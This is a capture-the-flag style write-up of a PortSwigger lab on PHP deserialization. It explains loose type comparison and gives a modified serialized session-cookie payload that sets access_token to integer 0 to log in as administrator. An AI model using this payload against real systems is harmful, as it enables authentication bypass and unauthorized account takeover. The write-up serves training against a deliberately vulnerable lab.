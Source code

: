 ```yaml
---
title: 'Lab: Modifying serialized data types'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Modifying serialized data types
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result
* Goal: To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.
You can log in to your own account using the following credentials: wiener:peter

## Background
Loose Comparison Operator in `PHP`
> `PHP` based logic is particularly vulnerable to this kind of manipulation due to the behavior of its **loose comparison operator(==)** when comparing different data types.
> For example: `5=="5"` will be true when two types are different.

Vulnerability:
> This becomes even stranger when comparing a string the integer 0: `0 == "Example string" // true`
How about if the website author use this kind of vulnerability as below to verify the admin user?
>```php!
>$login = unserialize($_COOKIE)
>if ($login['password'] == $password) {
>// log in successfully
>}
>```

## Recon
1. Recon Package
According to the package we intercepted, the cookie is set to base64-encoded string:
Session: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJmaWtlajZ6ZXN6ZmFudm53b2psYmM2NHllN3dxaG5heSI7fQ%3d%3d`
Decoded String: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"fikej6zeszfanvnwojlbc64ye7wqhnay";}`
![](https://i.imgur.com/B6addxR.png)

2. What if we modify the string?
The verification mechanism workflow is comparing the query user's `access_token` with its database data.

## Exp
1. Modify the string like below
Change the user to `administrator` and access token to integer `0` so that the comparison is always true.
Exploit Payload:
`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
Then we have admin panel on the screen.
![](https://i.imgur.com/X36upo8.png)

2. Delete Carlos like previous lab
:::spoiler Success Screenshot
![](https://i.imgur.com/PmCuBRF.png)
:::

## Reference